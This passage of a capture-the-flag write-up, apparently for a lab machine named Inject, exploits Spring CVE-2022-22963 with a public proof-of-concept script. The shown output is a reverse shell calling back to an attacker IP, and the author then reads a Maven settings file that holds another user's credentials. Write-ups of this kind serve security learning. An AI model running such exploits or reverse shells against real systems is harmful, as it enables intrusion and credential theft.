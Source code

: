 This file contain freamwork name `Spring` and version `2.6.5`.

Whit a simple search on goole we can find that <https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit/tree/main>.
A repository that provide a poc for exploit the application.
Let's see if we are lucky.

    python3 exploit.py -u http://10.10.11.204:8080
    [+] Target http://10.10.11.204:8080
    
    [+] Checking if http://10.10.11.204:8080 is vulnerable to CVE-2022-22963...
    
    [+] http://10.10.11.204:8080 is vulnerable
    
    [/] Attempt to take a reverse shell? [y/n]y
    listening on [any] 4444 ...
    [$$] Attacker IP:  10.10.14.7
    connect to [10.10.14.7] from (UNKNOWN) [10.10.11.204] 38096
    bash: cannot set terminal process group (823): Inappropriate ioctl for device
    bash: no job control in this shell
    frank@inject:/$ id 
    id 
    uid=1000(frank) gid=1000(frank) groups=1000(frank)
    frank@inject:/$ 

We are load out as rank, Nice!


<a id="org2153a62"></a>

# Privilege Escaletion as Phil

Once we get into the filesystem we can go sbito and look for artifacts in frank's folder.

Randomly opening the .m2 folder we find an xml configuration file.
we print the file and smile.

    <?xml version="1.0" encoding="UTF-8"?>
    <settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
      <servers>
        <server>
          <id>Inject</id>
          <username>phil</username>
          <password><Redacted></password>
          <privateKey>${user.home}/.ssh/id_dsa</privateKey>
          <filePermissions>660</filePermissions>
          <directoryPermissions>660</directoryPermissions>
          <configuration></configuration>
        </server>
      </servers>
      </settings>
